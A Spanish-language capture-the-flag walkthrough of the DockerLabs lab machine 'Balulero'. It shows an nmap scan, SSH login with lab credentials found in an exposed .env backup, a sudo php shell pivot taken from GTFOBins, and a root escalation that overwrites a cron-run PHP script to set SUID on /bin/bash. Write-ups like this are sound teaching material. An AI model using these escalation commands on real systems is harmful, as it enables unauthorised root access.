






Máquina "Balulero" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Fácil



# RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Sun Sep 29 05:27:02 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-29 05:27:03 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCfQMmr3m61diZ1KC0Lx91w4yDqvPtDw4OibbWWzX7tWBQBrStMlhZz8Btm0WuYmgxuZ4vvubfXt/nfcLVn2gHSsumg3wCgp50lEWa1ezxoTUrJAz4huMXmaldkyxP4EsGujqmFJD0LcbsWIrDTiVwGlOdslG2PcTcafRWIAf13I4gq4/oFAMmj0uSqLElhGnv27VSTHDmG1ZgZKCEfuBnIeJLy95XoBaqNqdV/w3+X0EhwOB/IXDCfndMO6WHdX00u/nVDUQGeyyLN6hAk+8a+2Q7OE2onrxAzAbDly3/yxTGsDc2YbuTIOm8pUXZ/GKW6ADfes0mlWVHPykrqO0saeh4jnmDxQiiBFUi3Eny59rZ5FYHKEiYQdVJVkOhSmLLznYVAVb1ss3Yd06zyLTYWc3XgQgUQJDD/w2QYqpvYOavx6A5OEHqCJM9jTeik8hR2PxoKP7wog7js/DixwYdLmsgT9YsVu24wRTsiGeL6hw6bJ3LkpP2S+t3LZEgxloM=
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPCL4w8bnH1OawJXtrWVZ/UpwO/QvEyF30iuHFErlLS+Oz/rv1PIwJ2smzJApdIKyuWIYhqeWcBb6YnLb3uSCww=
|   256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN/8vAojwmFqggwMUvyidqs0mNS199oiLRGCGot8R1+I
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mi Landing Page - Ciberseguridad
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 29 05:27:11 2024 -- 1 IP address (1 host up) scanned in 8.84 seconds
```

Como vemos, los puertos abiertos son:

`22: Corriendo OpenSSH 8.2p1`

`80: Corriendo Apache httpd 2.4.41`

son versiones relativamente nuevas por lo que no podremos hacer mucho con ellas.

Puerto 80:



En el puerto 80 (página web) no encontramos nada útil a simple vista, pero si miramos el codigo fuente, y entramos a el script.js que está en esta parte:



veremos un codigo distinto el cual tiene este comentario:

```js
    // Funcionalidad para ocultar/mostrar el header al hacer scroll y el secretito de la web
    console.log("Se ha prohibido el acceso al archivo .env, que es donde se guarda la password de backup, pero hay una copia llamada .env_de_baluchingon visible jiji")
```

como vemos, parece que hay dos archivos:

1: `.env` pero a este no tenemos acceso

2: `.env_de_baluchingon` al cual si tenemos acceso

# INTRUSION

Si entramos al archivo `.env_de_baluchingon `desde el navegador, veremos lo siguiente:

```css
RECOVERY LOGIN

balu:balubalulerobalulei
```

Al parecer son credenciales para el ssh, por lo que simplemente nos conectamos con `ssh balu@<ip>` y ya estaremos dentro.

# ESCALADA DE PRIVILEGIOS

### Balu

Siendo el usuario balu, veremos que podemos ejecutar `php` como el usuario chocolate al ejecutar `sudo -l`:



por lo que luego de buscar en [GTFOBins](https://gtfobins.github.io/), veo que podemos pivotar a chocolate de la siguiente manera:

```css
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

### Chocolate

Ahora, no tendremos suerte con el `sudo -l`, pero luego de usar la herramienta [pspy](https://github.com/DominicBreuker/pspy), logro ver que hay un comando que se ejecuta cada 5 segundos:



Al parecer, el proceso ejecuta cada cierto tiempo el script que está en `/opt/script.php`, al que casualmente podemos modificar, por lo que ahora solo nos queda ejecutar lo siguiente:

```css
echo "<?php" > /opt/script.php
echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php
echo "?>" >> /opt/script.php
```

Una vez ejecutado todo eso, solo nos quedaria esperar unos 5 segundos, y luego ejecutar `bash -p` ya que con el nuevo script que creamos le dimos permisos SUID a bash:



Gracias por leer....